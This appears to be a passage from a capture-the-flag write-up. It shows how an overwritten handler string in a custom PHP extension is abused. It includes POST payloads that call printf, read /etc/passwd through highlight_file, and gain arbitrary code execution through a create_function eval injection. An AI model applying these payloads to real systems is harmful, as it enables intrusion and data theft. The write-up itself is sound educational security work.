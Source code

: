 Ok, so we can set the handler to an arbitrary value. Now this comes in handy
when the following code is executed:

{% highlight c %}
static PHP_FUNCTION(hastur_ia_ia)
{
    // .....
    MAKE_STD_ZVAL(handler_zval);
    MAKE_STD_ZVAL(name_zval);
    MAKE_STD_ZVAL(text_zval);
    ZVAL_STRING(handler_zval, handler, 1);
    ZVAL_STRING(name_zval, god_name, 1);
    params[0] = &text_zval;
    params[1] = &name_zval;

    // note: fill text value argument to hastur_ia_ia
    if (zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC, "s", &text, &text_len) == FAILURE) {
        RETURN_FALSE;
    }

    // ... text is transformed in an uninteresting way

    // note: This is basically call_user_function(handler, text, god_name)
    if (call_user_function_ex(EG(function_table), NULL, handler_zval,
                              &retval_ptr, 2, params, 0, NULL TSRMLS_CC) == SUCCESS) {
        // ...
    }
    // ...
{% endhighlight %}

So our overwritten handler string is used as a function name and called with
two arguments. We verify this is a Bad Thing™ by calling printf via the
following POST parameters:

    name=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaprintf&text=foo

And sure enough, the string "foo" appears in the response. Now what? After some
fiddling we figured out that we can read files with `highlight_file`:

    name=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaahighlight_file&text=/etc/passwd

But for some reason we could not read `/flag1` this way, which is weird. We did
not investigate this further because we wanted proper code execution anyways.
The payload we used to do that is the following:

    name=}echo 1;#aaaaaaaaaaaaaaaaaaaaaaacreate_function&text=

Basically this results in a call to `create_function('', '}echo 1;#aaa...')` and
broken as PHP is, this of course is equivalent to `eval('echo 1;')`...
Apparently `create_function` is implemented via `eval` by just creating
a function definition on the fly via string concatenation. So now we can do

    name=}eval($_POST[x]);#aaaaaaaaaaaaaaaaaaaaaaacreate_function&
    text=&
    x=echo 1;

And execute arbitrary PHP code. And for some reasong we can now use
`echo file_get_contents('/flag1');` to read the `/flag1`. Milestone completed.
